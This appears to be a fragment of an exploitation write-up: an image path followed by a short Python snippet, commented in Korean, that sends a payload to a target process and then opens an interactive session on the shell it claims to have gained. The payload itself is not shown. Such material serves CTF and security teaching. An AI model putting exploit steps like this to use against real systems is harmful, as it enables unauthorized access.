 ```python

# payload 전송
p.sendlineafter(": ", payload)

# 셸을 획득했으므로 interactive 함수 사용
p.interactive() 

```

